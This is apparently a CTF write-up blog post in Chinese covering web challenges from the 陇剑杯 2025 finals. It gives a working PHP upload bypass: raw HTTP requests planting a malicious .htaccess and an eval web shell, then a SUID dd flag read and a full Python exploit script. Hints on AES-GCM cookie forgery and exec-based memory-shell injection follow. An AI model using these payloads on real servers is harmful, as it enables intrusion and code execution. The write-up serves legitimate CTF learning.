

+++
title= "陇剑杯决赛2025"
slug= "longjian-cup-finals-2025"
description= ""
date= "2025-09-19T22:53:10+08:00"
lastmod= "2025-09-19T22:53:10+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= ["php","ssti","go"]

+++

## ezzupload

查看文件，拿到源码

```php
<?php
session_start();

$session_id = session_id();
$target_dir = "/var/www/html/uploads/$session_id/";

if (!is_dir($target_dir)) {
    mkdir($target_dir, 0755, true);
    chown($target_dir, 'www-data');
    chgrp($target_dir, 'www-data');
}
?>
<form enctype='multipart/form-data' action='' method='post'>
    <input type='file' name='fileToUpload'>
    <input type="submit" value="Upload" name="submit">
</form>
<?php

if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.\n";
        $uploadOk = 0;
    }
    
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.\n";
        $uploadOk = 0;
    }

    if ($lastDotPosition == false) {
        $filename = $target_file;
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.\n";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
        echo "Sorry, that is not a valid session ID.\n";
        $uploadOk = 0;
    }

    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.\n";
    } else {
        $temp_file_path = $target_dir . uniqid('temp_', true) . '.tmp';
        
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $temp_file_path)) {
            chmod($temp_file_path, 0000);
            
            $is_hidden = (substr($target_file, 0, 1) === '.');
            
            if ($is_hidden) {
                chmod($temp_file_path, 0644);
            }
            
            if (rename($temp_file_path, $target_file_path)) {
                echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
                
                if (!$is_hidden) {
                    chmod($target_file_path, 0000);
                }
            } else {
                echo "Sorry, there was an error renaming your file.";
                if (file_exists($temp_file_path)) {
                    unlink($temp_file_path);
                }
            }
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
        $old_path = getcwd();
        chdir($target_dir);
        shell_exec('chmod 000 *');
        chdir($old_path);
    }
}
?>
```

是一个文件上传，有临时目录的限制，不能够进行条件竞争，但是最后的`shell_exec('chmod 000 *');`，其中的`*`，不会匹配到隐藏文件，可以尝试上传文件

```http
POST / HTTP/1.1
Host: 156.239.238.130:8088
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymiiKGCfIOGTxiB8c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Referer: http://156.239.238.130:8088/
Cookie: PHPSESSID=29207cf497ac3e538869896141d7e6fe
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Origin: http://156.239.238.130:8088
Upgrade-Insecure-Requests: 1
Content-Length: 468

------WebKitFormBoundarymiiKGCfIOGTxiB8c
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: application/octet-stream

#define width 1337
#define height 1337
php_value auto_prepend_file ".shell.txt"
AddType application/x-httpd-php .txt
------WebKitFormBoundarymiiKGCfIOGTxiB8c
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundarymiiKGCfIOGTxiB8c--

```

```http
POST / HTTP/1.1
Host: 156.239.238.130:8088
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=29207cf497ac3e538869896141d7e6fe
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Origin: http://156.239.238.130:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9jVVZHRsf7LwrYKO
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://156.239.238.130:8088/
Content-Length: 323

------WebKitFormBoundary9jVVZHRsf7LwrYKO
Content-Disposition: form-data; name="fileToUpload"; filename=".shell.txt"
Content-Type: text/plain

<?php eval($_POST[1]);phpinfo();
------WebKitFormBoundary9jVVZHRsf7LwrYKO
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundary9jVVZHRsf7LwrYKO--

```

访问一下`/uploads/29207cf497ac3e538869896141d7e6fe/.shell.txt`，成功解析



发现读取flag没有足够权限，看看suid位

```
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/exim4
/usr/bin/dd
/usr/bin/umount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
```

发现有dd，进行文件读取

```
1=system("dd if=/flag 2>/dev/null");
```

exp如下

```python
import hashlib
import random
import requests
import re

url = "http://156.239.238.130:8088/"
sess = requests.session()

sessionId = hashlib.md5(str(random.randint(100000, 999999)).encode('utf-8')).hexdigest()
htaccess = '''
#define width 1337
#define height 1337
php_value auto_prepend_file ".shell.txt"
AddType application/x-httpd-php .txt
'''

shell = '''
<?php eval($_POST[1]);phpinfo();
'''


def upload_htaccess(sessionId,htaccess):
    sess.post(url, files={"fileToUpload": (".htaccess", htaccess)}, cookies={"PHPSESSID": sessionId})

def upload_shell(sessionId):
    sess.post(url, files={"fileToUpload": (f".shell.txt", shell)}, cookies={"PHPSESSID": sessionId})


def get_shell(sessionId):
    res = sess.get(url + f"uploads/{sessionId}/.shell.txt" , cookies={"PHPSESSID": sessionId})
    if res.status_code != 200:
        print(res.text)
    else :
        print("sucess")

def get_flag(sessionId):
    res = sess.post(url + f"uploads/{sessionId}/.shell.txt", cookies={"PHPSESSID": sessionId},data={"1":"system('dd if=/flag 2>/dev/null');"})
    if "flag{" in res.text:
        match = re.search(r'flag\{.*?\}', res.text)
        if match:
            flag = match.group(0)
            return flag


if __name__ == '__main__':
    upload_htaccess(sessionId,htaccess)
    upload_shell(sessionId)
    get_shell(sessionId)
    flag=get_flag(sessionId)
    print(flag)


```

还有两题比较可能被做出来，我这里简单说说hint，有兴趣的师傅可以自己回去研究

## PHP-GCM

这题主要是Cookie模式的限定，如果比较熟悉的可以看出是AES-GCM，后面的如何伪造用户绕过登录就自己下去研究吧

## webshell大派送

本题的代码其实真的很简单，但是不知道为什么启动的比较慢，选手访问的也比较慢

```python
import sys
from bottle import Bottle,request

def disabled(*args, **kwargs):
    raise PermissionError("Use of function is not allowed!")


def init_functions():
    import subprocess
    sys.modules['os'].popen = disabled
    sys.modules['os'].system = disabled
    sys.modules['os'].open = disabled
    sys.modules['os'].spawnl = disabled
    sys.modules['os'].spawnle = disabled
    sys.modules['os'].spawnlp = disabled
    sys.modules['os'].spawnlpe = disabled
    sys.modules['os'].spawnv = disabled
    sys.modules['os'].spawnve = disabled
    sys.modules['os'].spawnvp = disabled
    sys.modules['os'].spawnvpe = disabled
    sys.modules['subprocess'].Popen = disabled
    sys.modules['subprocess'].run = disabled
    sys.modules['subprocess'].call = disabled
    sys.modules['subprocess'].check_call = disabled
    sys.modules['subprocess'].check_output = disabled
    sys.modules['subprocess'].getstatusoutput = disabled
    sys.modules['subprocess'].getoutput = disabled
    del __builtins__.__dict__['open']


app = Bottle()

@app.route('/shell')
def index():
    cmd = request.query.cmd
    if len(cmd) > 18:
        return "Hacker!"
    exec(cmd)
    return "ture"

@app.route('/')
def index():
    return 'Hello CTFer!'

if __name__ == '__main__':
    init_functions()
    app.run(host='0.0.0.0', port=5555)
```

注意其中的exec函数，这个是可记忆的，所以只要逐步进行字符叠加，最后打一个内存马即可

## packingmachine

不会，会不了一点。出题人太厉害了


## 小结

解多点的就说了一下具体的解法，另外解少（无解）但是我会的，就点一点，还有一个真不会。
